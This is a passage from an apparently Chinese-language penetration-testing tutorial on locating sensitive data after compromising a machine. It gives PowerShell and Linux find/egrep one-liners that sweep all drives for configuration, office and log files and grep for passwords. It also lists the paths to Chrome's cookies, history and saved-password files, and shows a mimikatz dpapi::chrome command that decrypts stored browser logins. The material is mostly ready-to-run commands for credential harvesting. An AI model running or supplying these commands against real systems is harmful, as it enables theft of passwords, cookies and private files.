 PowerShell 也可以做到筛选文件后缀操作，思路和 CMD 一样，只是语法不同。

```plaintext
PS C:\Users\gbb> 65..90 | %{Get-ChildItem -Hidden -Recurse -File "$([char]$_):\" 2> $null} | %{$_.FullName} | Select-String -Pattern "\.inc$", "\.conf$", "\.config$", "\.properties", "\.json","\.xls$", "\.xlsx$", "\.docx$", "\.doc$", "\.pptx$", "\.ppt$", "\.ini$", "\.xml$", "\.log$", "\.txt$", "\.md$", "\.yml$", "\.yaml$", "\.*密码。*", "\.*运维。*", "\.*账户。*", "\.*拓扑。*"

C:\AVScanner.ini
C:\Program Files\Common Files\microsoft shared\ClickToRun\C2RHeartbeatConfig.xml
C:\Program Files\Common Files\microsoft shared\ClickToRun\FrequentOfficeUpdateSchedule.xml
C:\Program Files\Common Files\microsoft shared\ClickToRun\officesvcmgrschedule.xml
......
```

`65..90 | %{"$([char]$_):\"}` range 运算符快速生成 65-90 数字（或者也可以 For 循环完整语法等价替换 `for ($i = 65; $i -le 90; $i++) {[char]$i}`），`%{Get-ChildItem -Recurse -File "$([char]$_):\" 2> $null}` 用 foeach 循环 `[char]` 转换成字符 A-Z 作为盘符参数用于 Get-ChildItem 递归获取文件名，通过管道 `%{$_.FullName}` 得到文件绝对路径字符串，使用 Select-String 正则所有对应关键字晒出目标文件。

在学习过程中也遇到很多问题，比如下面语句能筛出文件绝对路径，但是输出结果是对象，找了很多命令（如 Out-String 转换成字符串）也不能通过关键字筛出想要内容。

```powershell
65..90 | %{Get-ChildItem -Hidden -Recurse -File "$([char]$_):\" 2> $null} | Format-List -Property VersionInfo
65..90 | %{Get-ChildItem -Hidden -Recurse -File "$([char]$_):\" 2> $null} | Format-List Fullname
65..90 | %{Get-ChildItem -Hidden -Recurse -File "$([char]$_):\" 2> $null} | Format-Wide -Column 1 Fullname
```

二、Linux

`/tmp` 内的文件定时自动清理或者重启清理，有人习惯把不用的文件直接扔进去，另一个路径是 `/var/tmp` 这个目录不会自动清理文件。可以先从俩临时文件夹中找数据。

使用 find 找对应后缀文件，egrep 文件内容筛关键字。一般找 Home 目录和应用、日志目录。-type f 是搜普通文件，-regex 代表用正则搜。

```plaintext
find / -type f -regex '.*\.txt\|.*\.xml\|.*\.php\|.*\.jsp\|.*\.conf\|.*\.bak\|.*\.js\|.*\.inc\|.*\.htpasswd\|.*\.inf\|.*\.ini\|.*\.log|.*\.sh|.*\.config' > files.txt 2> /dev/null
```

最后对这些文件筛关键字。

```plaintext
// 可以筛出结果。但是不能显示文件路径，为了定位文件最好找出关键字。
cat files.txt | xargs -t -n 1 egrep "password=" 2> /dev/null
```

##### 浏览器

浏览器中需要关注，保存的密码、书签、浏览历史、保存的 Cookie。

Chrome 浏览器数据。

```plaintext
// 浏览记录文件
dir %localappdata%\Google\chrome\USERDA~1\Default\History

// 浏览器 cookies 文件
dir %localappdata%\Google\Chrome\USERDA~1\Default\Cookies

// 浏览器书签文件
dir %localappdata%\Google\Chrome\USERDA~1\Default\Bookmarks

// 浏览器保存的密码文件
dir "%localappdata%\Google\Chrome\USERDA~1\Default\Login Data"

// imikaz 读取 Chrome 浏览器历史记录。
mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\Google\Chrome\USERDA~1\Default\LOGIND~1" exit

```